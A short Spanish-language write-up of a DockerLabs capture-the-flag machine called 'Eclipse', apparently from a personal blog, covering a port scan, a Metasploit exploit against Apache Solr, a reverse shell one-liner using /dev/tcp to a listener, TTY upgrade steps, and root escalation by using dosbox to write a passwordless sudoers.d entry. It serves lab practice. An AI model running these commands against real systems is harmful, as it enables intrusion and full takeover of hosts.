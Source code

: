 ```yaml
---
title: Eclipse
author: Ldeluq
date: 2024-12-18 14:10:00 +0800
categories:
  - Ctf
  - DockerLabs
tags:
  - ciber
render_with_liquid:
---
```

Iniciamos la maquina 

![[Pasted image 20241218142442.png]](/imagenes/Pasted%20image%2020241218142442.png)

escaneamos los puertos `nmap -p- --open -sCSV -vvv -Pn -n --min-rate 5000 172.17.0.2`

![[Pasted image 20241218142640.png]](/imagenes/Pasted%20image%2020241218142640.png)

entramos en el navegador y verificamos las direcciones en ambos puertos

![[Pasted image 20241218142801.png]](/imagenes/Pasted%20image%2020241218142801.png)

en el puerto 80 no encontramos nada interesante seguimos al siguiente 

![[Pasted image 20241218142926.png]](/imagenes/Pasted%20image%2020241218142926.png)

encontramos que corre solr asi que buscamos en la web si para la version que usa existe algun exploit 

![[Pasted image 20241218143121.png]](/imagenes/Pasted%20image%2020241218143121.png)

vamos a metaexploit para buscar el exploit usarlo y explotar la vurneravilidad 

![[Pasted image 20241218143715.png]](/imagenes/Pasted%20image%2020241218143715.png)

![[Pasted image 20241218143823.png]](/imagenes/Pasted%20image%2020241218143823.png)

modificamos los parametros para ejecutar el exploit 

![[Pasted image 20241218144210.png]](/imagenes/Pasted%20image%2020241218144210.png)

![[Pasted image 20241218144420.png]](/imagenes/Pasted%20image%2020241218144420.png)
le damos tratamiento a la tty `script /dev/null -c bash` luego nos pasamos la shell a nustra maquina para mayor comodidad
`sh -i >& /dev/tcp/192.168.100.8/443 0>&1`

![[Pasted image 20241218145512.png]](/imagenes/Pasted%20image%2020241218145512.png)

tras recibir la shell en nuestra maquina le damos tratamiento tty 
stty raw -echo; fg
control +z
reset xterm
export TERM=xterm
export SHELL=bash
luego buscamos los servicios con permiso SUID `find / -perm -4000 2>/dev/null`

![[Pasted image 20241218150020.png]](/imagenes/Pasted%20image%2020241218150020.png)

buscamos en gtfobins como escalar privilegios en dosbox. Usamos dosbox para crear un archivo en sudoers.d, permitiéndonos ejecutar comandos como superusuario sin necesidad de contraseña:

![[Pasted image 20241218150248.png]](/imagenes/Pasted%20image%2020241218150248.png)

ejecutamos el comando
`LFILE='\etc\sudoers.d\ninhack'`
`/usr/bin/dosbox -c 'mount c /' -c "echo ninhack ALL=(ALL) NOPASSWD: ALL >c:$LFILE" -c exit`

luego usamos `sudo su` y verificamos con `whoami` y somo root 

![[Pasted image 20241218153258.png]](/imagenes/Pasted%20image%2020241218153258.png)
